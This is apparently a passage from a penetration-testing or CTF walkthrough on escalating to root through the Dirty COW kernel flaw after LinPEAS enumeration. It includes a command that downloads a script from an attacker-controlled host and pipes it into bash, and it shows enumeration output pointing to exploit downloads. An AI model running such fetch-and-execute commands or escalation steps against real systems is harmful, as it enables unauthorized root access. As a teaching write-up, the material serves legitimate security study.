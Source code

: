 ## Alternate Root Path – Dirty COW Exploit

Once access is obtained to any user account with either SSH or an interactive shell, it's possible to begin a second root escalation path using the well-known **Dirty COW** vulnerability (CVE-2016-5195).

### 1. Privilege Escalation Enumeration

To check for local privilege escalation vectors, it's best to automate the process. The tool [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) is commonly used for this.

LinPEAS scans for a wide range of misconfigurations and vulnerable components, such as:

* World-writable or misconfigured system files
* SUID binaries
* Kernel version exploits
* Accessible credentials or backups

**Run LinPEAS from the target machine:**

```bash
# Download linpeas.sh from a web server or transfer manually
curl http://<host-ip>/linpeas.sh | bash
```

---

```bash
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```
---

This method provides direct root access from any interactive user shell, assuming the kernel is vulnerable and not patched. Always verify that the system's version aligns with Dirty COW’s impact range before attempting exploitation.

